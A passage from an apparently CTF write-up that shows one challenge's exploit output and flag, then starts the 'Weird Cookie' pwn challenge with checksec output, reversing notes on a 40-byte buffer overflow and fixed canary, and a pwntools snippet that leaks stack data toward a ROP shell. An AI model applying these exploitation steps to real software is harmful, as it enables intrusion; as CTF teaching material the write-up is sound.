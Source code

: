 ```bash
$ python3 exploit.py
[+] Opening connection to challenge.nahamcon.com on port 32743: Done
[*] Switching to interactive mode

YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:
flag{85605e34d3d2623866c57843a0d2c4da}
```
{: .nolineno }


## Weird Cookie
> Points: 467 <br/>
> Difficulty: Medium <br/>
> Author: M_alpha
>
> Something's a little off about this stack cookie...
>
> Attachments: weird_cookie, libc-2.27.so

The binary has the following protections
```bash
$ pwn checksec ./weird_cookie
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
{: .nolineno }

Reversing the binary reveals the following main function
![Weird cookie main](weird_cookie_rev.png)

We see the following notable parts:
- There is a predefined canary value which is checked for at the end of the main function
- We can input 64 bytes to a 40-byte buffer, which allows for an overflow
- There is no flag-printing function, so we probably have to ROP to get shell while bypassing PIE and ASLR

Since we have an overflow where we can give 64 bytes to a 40 byte buffer we can make the first `puts(buffer)` print more than 40 bytes if we overwrite the nullbyte at the end of the buffer. `puts` will then print until the next nullbyte, potentially leaking useful data. To overwrite the nullbyte at the end of the buffer we only need to give 40 bytes of input

```python
io = start()
io.recvuntil(b"me?")
io.send(b"A"*40)
io.recvline()
leak = io.recvline()
print(leak)
```
{: .nolineno }
